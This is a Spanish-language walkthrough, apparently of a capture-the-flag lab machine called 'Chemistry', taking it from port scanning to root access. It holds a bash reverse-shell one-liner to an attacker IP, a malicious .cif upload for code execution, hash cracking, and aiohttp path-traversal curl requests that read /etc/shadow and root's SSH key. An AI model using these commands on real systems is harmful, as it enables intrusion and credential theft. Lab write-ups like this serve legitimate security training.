# Chemistry

```bash
nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.231.170 -oN scan_nmap.txt
```



Launchpad -> Focal

```bash
nmap --script http-enum -p5000 10.129.231.170
```





```bash
whatweb "http://10.129.231.170:5000"
```



Parece que el servidor funciona con Python *Werkzeug/3.0.3 Python/3.9.5*

Probamos a subir una shell con php pero nos redirige a una pag que no carga, parece que no se sube.

Haciendo un ataque de tipo sniper con distintos tipos de extension *cif.php, cif, php5, phtml, phar, php* no obtenemos una respuesta distinta

Nada interesante con gobuster



Probamos con varios exploits para vulnerar este servidor pero todos me dicen que necesitan una especie de secreto



Nos creamos un venv en python para usar algunas herramientas



Vuelvo a intentar subir un archivo y veo que en la pag inicial hay un archivo de ejemplo



Al ver la respuesta con Burp cuando se le da a view al archivo subido, vemos una cookie de sesión que no sé si podremos usar como secreto o para algo *.eJwlzjkOwjAQQNG7uKYYzxIPuQzybII2IRXi7liif9L_n_aoI89n29_Hlbf2eEXb29xois1JNABJzdHZdCgUdtokjKdg0NCxWGaEewJ0wkxKLxnTsmgzY2fVgpl-Z-ogzpIDCsxziR4MVSjIGqulFqDQQ7itkevM43_TpX1_VY0wvA.aW4M5g.maS8HvaUbZwdXbYjLsVP7O9ING0*
Además vemos que se accede al recurso
http://10.129.231.170:5000/structure/e9acf1ab-bd81-4811-805e-acbd93d35704
Donde la parte final parece ser una especie de id o secreto

- Cambio de IP -> **10.129.48.151**
Encontramos un archivo malicioso en github para subir en formato .cif donde se ejecuta código de forma arbitraria debido a una mala implementación de la funcion *eval()* dentro de el intérprete de archivos .zip. https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Nos lanzaremos una rev shell en la parte del script donde se ejecuta el código
Primero comprobaremos que el código arbitrario se ejecuta lanzando un ping hacia nuestra máquina
```bash
ping -c 2 10.10.17.61
```



Nos pondremos a la escucha de trazas ICMP por la tarjeta de red referente a la vpn que es las *tun0*
```bash
sudo tcpdump -i tun0 icmp -n
```

Subiremos el archivo y veremos si se ejecuta al compilar el archivo .cif desde el botón *view*



Vemos como nos ha llegado el ping ejecutado por la máquina, ahora será el momento de lanzarnos una shell cambiando el código ejecutado. Escaparemos las comillas y le indicaremos la ruta absoluta a la bash
```bash
/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.17.61/443 0>&1\'
```

**app**

## Escalada

Vemos una secretkey que nos puede ayudar



MyS3cretCh3mistry4PP

No funciona para el usuario rosa, pero vemos un archivo *database.db* donde parece que hay nombres de usuarios seguidos de hashes


rosa:63ed86ee9f624c7b14f1d4f43dc251a5
Intentamos crackearlo



rosa:unicorniosrosados -> probaremos a acceder al usuario
**rosa**

No vemos nada para
```bash
sudo -l
```

Ni para
```bash
find / -perm -4000 2>/dev/null
```

Tampoco nada para las capabilities con
```bash
getcap -r / 2>/dev/null
```

Con
```bash
ps -eo user,command | grep root
```

vemos que hay un proceso que ejecuta root que me llama la atención


No tenemos acceso a */opt/monitoring_site*
Tiene pinta de ser otro servicio web distinto al que teníamos en el puerto 5000, vamos a listar los puertos abiertos
```bash
ss -nltp
```

Vemos el puerto 8080 abierto



Hacemos un curl hacia ese puerto a ver si nos devuelve contenido
```bash
curl -XGET http://localhost:8080
```

Y efectivamente podemos ver contenido web.

Si consultamos las cabeceras para ver de qué se trata vemos un servicio *aiohttp* en versión *3.9.1*
```bash
curl -I -XGET http://localhost:8080
```



Buscaremos algún exploit para esto antes de aplicar local port forwarding
Encontramos un PoC https://github.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC
- Lo que explota es un path traversal para listar recursos en la máquina de forma privilegiada, ya que el proceso está lanzado con *root*, se podrá acceder a contenido privilegiado

Vemos que en resumen hace una llamada con curl aplicando el pathtraversal y utiliza el parámetro *--path-as-is* que se encarga de leer la url tal cual se la pasamos y NO omite */./* ni */../*



Lanzaremos esta petición sobre el servicio de la máquina
```bash
curl -XGET http://localhost:8080/assets/../../../../../../../../../etc/shadow --path-as-is
```

Vemos que nos devuelve resultado al acceder a un archivo priv como es /etc/shadow



Vamos  intentar listar alguna id_rsa de ssh en root
```bash
curl -XGET http://localhost:8080/assets/../../../../../../../../../root/.ssh/id_rsa --path-as-is
```



Lo metemos en un archivo en */tmp/id_rsa*
```bash
curl -XGET http://localhost:8080/assets/../../../../../../../../../root/.ssh/id_rsa --path-as-is > /tmp/id_rsa
```

Le asignamos permisos
```bash
chmod 600 /tmp/id_rsa
```

Y nos conectamos por ssh sin necesidad de paswd
```bash
ssh root@localhost -i /tmp/id_rsa
```

**root**
